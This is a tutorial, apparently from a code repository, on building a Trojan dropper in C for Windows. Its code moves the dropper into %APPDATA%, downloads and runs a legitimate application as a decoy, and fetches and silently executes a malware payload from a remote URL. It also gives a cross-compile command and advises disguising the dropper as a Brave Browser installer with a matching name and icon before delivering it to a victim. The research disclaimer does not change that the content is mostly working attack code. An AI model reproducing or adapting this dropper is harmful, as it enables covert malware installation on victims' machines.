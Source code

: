 # Creating a Trojan

## DISCLAIMER: This project was made for research purposes. Anything you do with this code is on you and is not my responsibility.

The main basis of this article will be to bundle a legitimate application with a malicious one. Here are the steps we will go through:
1. Code a dropper that will drop both the legitimate application & the malicious one. 
2. The dropper will then copy itself to another directory to hide it & then the dropped malicious application will overwrite & delete the dropper.

Let's start with defining the needed parameters for this function:

* legitimate_app  -> this is our legitimate application's file name to drop on the victim's machine
* legitimate_app_URL -> this is our legitimate application's URL to download it from
* malware_URL -> this is our malicious application's URL to download it from
* malware_app -> this is our malicious application's file name to drop on the victim's machine
* dropper_new_name -> this is the new name of our dropper. At first, our dropper will be masked to look like the legitimate application, but when it's executed, it will download the legitimate application & replace the dropper. This means we will have to move our dropper to a new location and give it a new name


Now, let's defining some variables we will be using when downloading & grabbing the legitimate application:

```
TCHAR current_dir[MAX_PATH]

TCHAR current_file[MAX_PATH]

TCHAR new_dir[MAX_PATH]
```
* current_dir will be used to grab the current directory & append the legitimate_app string to the end of it to build the location to drop the legitimate piece of software.
* current_file will store the current directory & name of the dropper. This will be the first parameter of the **MoveFileA** function
* new_dir will be used to build the location where the dropper will be moved to. This will be the 2nd parameter of the **MoveFileA** function

```
GetCurrentDirectory(MAX_PATH, current_dir);

strcat_s(current_dir, strlen(current_dir)+strlen(legitimate_app)+1, legitimate_app);

GetModuleFileNameA(NULL, current_file, MAX_PATH);

GetEnvironmentVariable("APPDATA", new_dir, MAX_PATH);

strcat_s(new_dir, strlen(new_dir)+strlen(dropper_new_name)+1,dropper_new_name);

int mresult = MoveFileA(current_file, new_dir);
```

1. This will store the current directory in current_dir 
2. This will concatenate the legitimate_app variable (the legitimate application's filename) to the current_dir variable
3. This will get the full path of the current running process & store it in current_file
4. This will grab the path of the environment variable "APPDATA" & store it in new_dir
5. the dropper's new file name is then concatenated to the new_dir variable
6. Then we move the dropper to the new directory which is %APPDATA% & rename it to whatever dropper_new_name is set to

```
HRESULT filedl = URLDownloadToFile(NULL, legitimate_app_URL, current_dir, 0, NULL);

if (filedl == S_OK) {

	HINSTANCE result = ShellExecuteA(NULL, "open", current_dir, NULL, NULL, 0);

}

else {
	
	printf("[!] Error with download\n");

}
```

Here we are simply downloading the legitimate application from the legitimate_app_URL variable & saving it to wherever current_dir points to. If the download is successful, we execute the legitimate software.

Now onto the next part of the code, downloading the malware & executing it.

The only variable we define here is:
`TCHAR maldir[MAX_PATH];`
which will be used to store the full directory of the malware being dropped.

```
GetEnvironmentVariable("APPDATA", maldir, MAX_PATH);

strcat_s(maldir, strlen(maldir)+strlen(malware_app)+1, malware_app);
```

1. Grabbing environment variable of APPDATA & storing it in maldir
2. Appending the desired file name of the malware that gets dropped to the maldir variable, creating a full path

```
HRESULT maldl = URLDownloadToFile(NULL, malware_URL, maldir, 0, NULL);

if (maldl == S_OK) {

	printf("[+] Successfully downloaded main malware\n");
    
    	HINSTANCE result2 = ShellExecuteA(NULL, "open", maldir, NULL, NULL, 0);
    
    	exit(0);
}

else {

	printf("[!] Error downloading main malware\n");

}
```

This is a repeat of earlier code, we're simply downloading the malware from the URL stored in malware_URL & saving it to the path stored in maldir. If the download succeeds, we execute it & then exit the dropper.

## Cross-Compilation
    `x86_64-w64-mingw32-gcc input.c -o output.exe -lurlmon`

Before delivering your dropper to your victim, be sure to rename it to the legitimate application's name. For example, if you were to have it masquerade as a Brave Browser installer, name the dropper file BraveBrowserSetUp.exe & change the icon of it to match the original.
